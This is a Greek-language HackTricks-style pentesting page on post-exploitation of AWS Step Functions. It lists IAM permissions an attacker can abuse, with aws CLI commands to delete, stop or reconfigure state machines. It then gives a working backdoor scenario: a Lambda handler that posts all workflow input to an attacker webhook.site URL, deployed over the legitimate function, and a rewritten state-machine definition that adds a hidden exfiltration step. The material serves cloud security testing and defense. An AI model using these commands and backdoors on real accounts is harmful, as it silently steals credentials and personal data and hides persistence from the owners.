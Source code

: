 # AWS - Step Functions Post Exploitation

{{#include ../../../../banners/hacktricks-training.md}}

## Step Functions

Για περισσότερες πληροφορίες σχετικά με αυτή την υπηρεσία AWS, δείτε:

{{#ref}}
../../aws-services/aws-stepfunctions-enum.md
{{#endref}}

### `states:RevealSecrets`

Αυτό το permission επιτρέπει την αποκάλυψη μυστικών δεδομένων μέσα σε μια εκτέλεση. Για αυτό, χρειάζεται να οριστεί το Inspection level σε TRACE και η παράμετρος `revealSecrets` σε `true`.

<figure><img src="../../../images/image (348).png" alt=""><figcaption></figcaption></figure>

### `states:DeleteStateMachine`, `states:DeleteStateMachineVersion`, `states:DeleteStateMachineAlias`

Ένας attacker με αυτά τα permissions θα μπορούσε να διαγράψει μόνιμα state machines, τις versions τους και aliases. Αυτό μπορεί να διαταράξει κρίσιμα workflows, να προκαλέσει απώλεια δεδομένων και να απαιτήσει σημαντικό χρόνο για την ανάκτηση και την επαναφορά των επηρεαζόμενων state machines. Επιπλέον, θα επέτρεπε σε έναν attacker να καλύψει τα χρησιμοποιημένα ίχνη, να διαταράξει forensic investigations και ενδεχομένως να παραλύσει τις operations αφαιρώντας απαραίτητες διαδικασίες automation και state configurations.

> [!NOTE]
>
> - Διαγράφοντας ένα state machine, διαγράφετε επίσης όλες τις συσχετιζόμενες versions και aliases.
> - Διαγράφοντας ένα state machine alias, δεν διαγράφετε τις state machine versions που αναφέρονται σε αυτό το alias.
> - Δεν είναι δυνατή η διαγραφή μιας state machine version που αυτή τη στιγμή αναφέρεται από ένα ή περισσότερα aliases.
```bash
# Delete state machine
aws stepfunctions delete-state-machine --state-machine-arn <value>
# Delete state machine version
aws stepfunctions delete-state-machine-version --state-machine-version-arn <value>
# Delete state machine alias
aws stepfunctions delete-state-machine-alias --state-machine-alias-arn <value>
```
- **Πιθανός αντίκτυπος**: Διατάραξη κρίσιμων ροών εργασίας, απώλεια δεδομένων και διακοπή λειτουργίας.

### `states:UpdateMapRun`

Ένας επιτιθέμενος με αυτήν την άδεια θα μπορούσε να χειριστεί τη ρύθμιση αποτυχίας του Map Run και την παράμετρο parallel, έχοντας τη δυνατότητα να αυξήσει ή να μειώσει τον μέγιστο αριθμό επιτρεπόμενων εκτελέσεων παιδικών ροών εργασίας, επηρεάζοντας άμεσα την απόδοση της υπηρεσίας. Επιπλέον, ένας επιτιθέμενος θα μπορούσε να αλλοιώσει το ποσοστό και τον αριθμό των ανεκτών σφαλμάτων, μειώνοντας αυτήν την τιμή στο 0, ώστε κάθε φορά που ένα στοιχείο αποτυγχάνει, ολόκληρο το Map Run να αποτυγχάνει, επηρεάζοντας άμεσα την εκτέλεση της state machine και ενδεχομένως διαταράσσοντας κρίσιμες ροές εργασίας.
```bash
aws stepfunctions update-map-run --map-run-arn <value> [--max-concurrency <value>] [--tolerated-failure-percentage <value>] [--tolerated-failure-count <value>]
```
- **Πιθανός Αντίκτυπος**: Υποβάθμιση απόδοσης και διακοπή κρίσιμων ροών εργασίας.

### `states:StopExecution`

Ένας επιτιθέμενος με αυτήν την άδεια θα μπορούσε να σταματήσει την εκτέλεση οποιασδήποτε state machine, διαταράσσοντας τρέχουσες ροές εργασίας και διαδικασίες. Αυτό μπορεί να οδηγήσει σε μη ολοκληρωμένες συναλλαγές, παύση επιχειρησιακών λειτουργιών και πιθανή διαφθορά δεδομένων.

> [!WARNING]
> Αυτή η ενέργεια δεν υποστηρίζεται από **express state machines**.
```bash
aws stepfunctions stop-execution --execution-arn <value> [--error <value>] [--cause <value>]
```
- **Πιθανός αντίκτυπος**: Διατάραξη των τρεχουσών ροών εργασίας, διακοπή λειτουργίας και πιθανή διαφθορά δεδομένων.

### `states:TagResource`, `states:UntagResource`

Ένας επιτιθέμενος θα μπορούσε να προσθέσει, να τροποποιήσει ή να αφαιρέσει tags από πόρους του Step Functions, διαταράσσοντας την κατανομή κόστους του οργανισμού σας, την παρακολούθηση πόρων και τις πολιτικές ελέγχου πρόσβασης που βασίζονται σε tags.
```bash
aws stepfunctions tag-resource --resource-arn <value> --tags Key=<key>,Value=<value>
aws stepfunctions untag-resource --resource-arn <value> --tag-keys <key>
```
**Πιθανός Αντίκτυπος**: Διατάραξη της κατανομής κόστους, της παρακολούθησης πόρων και των πολιτικών ελέγχου πρόσβασης βάσει ετικετών.

---

### `states:UpdateStateMachine`, `lambda:UpdateFunctionCode`

Ένας attacker που παραβιάσει έναν χρήστη ή ρόλο με τα ακόλουθα δικαιώματα:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "AllowUpdateStateMachine",
"Effect": "Allow",
"Action": "states:UpdateStateMachine",
"Resource": "*"
},
{
"Sid": "AllowUpdateFunctionCode",
"Effect": "Allow",
"Action": "lambda:UpdateFunctionCode",
"Resource": "*"
}
]
}
```
...μπορεί να διεξάγει μια **high-impact and stealthy post-exploitation attack** συνδυάζοντας Lambda backdooring με Step Function logic manipulation.

Αυτό το σενάριο υποθέτει ότι το θύμα χρησιμοποιεί **AWS Step Functions για να ορχηστρώσει workflows που επεξεργάζονται ευαίσθητο input**, όπως credentials, tokens, ή PII.

Παράδειγμα κλήσης του θύματος:
```bash
aws stepfunctions start-execution \
--state-machine-arn arn:aws:states:us-east-1:<victim-account-id>:stateMachine:LegitStateMachine \
--input '{"email": "victim@example.com", "password": "hunter2"}' --profile victim
```
Εάν το Step Function είναι διαμορφωμένο να καλεί ένα Lambda όπως `LegitBusinessLogic`, ο attacker μπορεί να προχωρήσει με **two stealthy attack variants**:

---

####  Ενημερώθηκε η lambda function

Ο attacker τροποποιεί τον κώδικα της Lambda function που ήδη χρησιμοποιείται από το Step Function (`LegitBusinessLogic`) για να silently exfiltrate input data.
```python
# send_to_attacker.py
import requests

def lambda_handler(event, context):
requests.post("https://webhook.site/<attacker-id>/exfil", json=event)
return {"status": "exfiltrated"}
```

```bash
zip function.zip send_to_attacker.py

aws lambda update-function-code \
--function-name LegitBusinessLogic \
--zip-file fileb://function.zip -profile attacker
```
---

#### Προσθήκη Κακόβουλης Κατάστασης στο Step Function

Εναλλακτικά, ο επιτιθέμενος μπορεί να εισάγει μια **exfiltration state** στην αρχή της ροής εργασίας ενημερώνοντας τον ορισμό του Step Function.
```malicious_state_definition.json
{
"Comment": "Backdoored for Exfiltration",
"StartAt": "OriginalState",
"States": {
"OriginalState": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:<victim-id>:function:LegitBusinessLogic",
"End": true
}
}
}

```

```bash
aws stepfunctions update-state-machine \
--state-machine-arn arn:aws:states:us-east-1:<victim-id>:stateMachine:LegitStateMachine \
--definition file://malicious_state_definition.json --profile attacker
```
Ο attacker μπορεί να είναι ακόμη πιο stealthy και να ενημερώσει τον ορισμό της κατάστασης σε κάτι τέτοιο
{
"Comment": "Backdoored for Exfiltration",
"StartAt": "ExfiltrateSecrets",
"States": {
"ExfiltrateSecrets": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:victim-id:function:SendToAttacker",
"InputPath": "$",
"ResultPath": "$.exfil",
"Next": "OriginalState"
},
"OriginalState": {
"Type": "Task",
"Resource": "arn:aws:lambda:us-east-1:victim-id:function:LegitBusinessLogic",
"End": true
}
}
}
όπου ο victim δεν θα αντιληφθεί τη διαφορά

---

### Victim Setup (Context for Exploit)

- A Step Function (`LegitStateMachine`) χρησιμοποιείται για την επεξεργασία ευαίσθητης εισόδου χρήστη.
- Καλεί μία ή περισσότερες Lambda functions όπως `LegitBusinessLogic`.

---

**Πιθανός Αντίκτυπος**:
- Σιωπηλή exfiltration ευαίσθητων δεδομένων, συμπεριλαμβανομένων secrets, credentials, API keys, και PII.
- Χωρίς εμφανή σφάλματα ή αποτυχίες στην εκτέλεση του workflow.
- Δύσκολο να ανιχνευθεί χωρίς έλεγχο (audit) του κώδικα των Lambda ή των execution traces.
- Επιτρέπει μακροχρόνια persistence αν το backdoor παραμείνει στον κώδικα ή στη λογική ASL.


{{#include ../../../../banners/hacktricks-training.md}}
